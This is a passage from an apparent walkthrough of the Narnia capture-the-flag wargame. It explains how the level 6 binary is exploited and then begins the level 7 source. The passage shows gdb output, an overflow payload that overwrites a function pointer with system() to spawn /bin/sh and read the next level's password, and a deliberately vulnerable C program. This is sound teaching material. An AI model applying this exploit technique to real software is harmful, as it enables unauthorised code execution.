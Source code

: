 Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
{{< / highlight >}}

What I did here was to disassemble the `main` function and find out where
`fp` is getting called, so that I can set a breakpoint on it. Then I
run the binary and inspect the stack before the call to `fp`. What we see is
that `$esp` points to `0xffffd6a0`, which is where the last 4 values of
`b2` are stored. This is also the argument that will be passed to the `fp` call.
Function arguments are pushed onto the stack before a function is called. So
We want this to point to `/bin/sh`, and we want `fp` to point to `system`. This is
the reason for the `p system`, it tells us the location of `system`.
Also note that our `segfault` is showing us the last
4 digits of `b1`. Perfect, I can use that to overwrite `fp` with the address of
`system` and I should be good to go.

As this is a little more advanced, let's go over the steps:

- Get the address of the argument to whatever `fp` points to
- Figure out how to overwrite that with our argument
- Get the address of `system`
- Overwrite what `fp` points to with `system`'s address 
- Assemble payload and hopefully get a shell

So the last step:

{{< highlight console >}}
narnia6@melinda:/narnia$ /games/narnia/narnia6 `python -c "print 'a'*8 + '\xd0\x2c\xe6\xf7' +' '+ 'b'*8 + '/bin/sh'"`
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
[password]
{{< / highlight >}}

## Level 07 ##

{{< highlight c "linenos=table" >}}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
    char buffer[128];
    int (*ptrf)();

    memset(buffer, 0, sizeof(buffer));
    printf("goodfunction() = %p\n", goodfunction);
    printf("hackedfunction() = %p\n\n", hackedfunction);
